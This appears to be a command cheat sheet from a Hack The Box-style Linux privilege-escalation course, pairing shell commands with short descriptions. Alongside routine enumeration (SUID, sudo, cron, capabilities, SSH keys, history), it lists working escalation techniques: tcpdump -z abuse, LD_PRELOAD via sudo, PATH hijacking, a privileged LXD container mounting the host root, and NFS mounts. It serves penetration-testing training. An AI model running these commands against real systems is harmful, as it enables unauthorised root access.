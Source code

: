 | **Command** | **Description** |
| --------------|-------------------|
| `ssh htb-student@<target IP>` | SSH to lab target |
| `ps aux \| grep root` | See processes running as root |
| `ps au` | See logged in users |
| `ls /home` | View user home directories |
| `ls -l /` | Check permisssions in / |
| `ls -l ~/.ssh` | Check for SSH keys for current user |
| `history` | Check the current user's Bash history |
| `sudo -l` | Can the user run anything as another user? |
| `ls -la /etc/cron.daily` | Check for daily Cron jobs |
| `lsblk` | Check for unmounted file systems/drives |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null` | Find world-writeable directories |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null` | Find world-writeable files |
| `uname -a` | Check the Kernel versiion |
| `cat /etc/lsb-release ` | Check the OS version |
| `gcc kernel_expoit.c -o kernel_expoit` | Compile an exploit written in C |
| `screen -v` | Check the installed version of `Screen` |
| `./pspy64 -pf -i 1000` | View running processes with `pspy` |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SUID bit set |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null` | Find binaries with the SETGID bit set |
| `getcap -r / 2>/dev/null` | Find binaries with capabilities |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump` |
| `echo $PATH` | Check the current user's PATH variable contents |
| `PATH=.:${PATH}` | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null` | Search for config files |
| `ldd /bin/ls` | View the shared objects required by a binary |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart` | Escalate privileges using `LD_PRELOAD` |
| `readelf -d payroll  \| grep PATH` | Check the RUNPATH of a binary |
| `gcc src.c -fPIC -shared -o /development/libshared.so` | Compiled a shared libary |
| `lxd init` | Start the LXD initialization process |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine` | Import a local image |
| `lxc init alpine r00t -c security.privileged=true` | Start a privileged LXD container |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true` | Mount the host file system in a container |
| `lxc start r00t` | Start the container |
| `showmount -e 10.129.2.12` | Show the NFS export list |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt` | Mount an NFS share locally |
| `tmux -S /shareds new -s debugsess` | Created a shared `tmux` session socket |
| `./lynis audit system` | Perform a system audit with `Lynis` |
| `netstat -antp` | Show listening ports in local host |
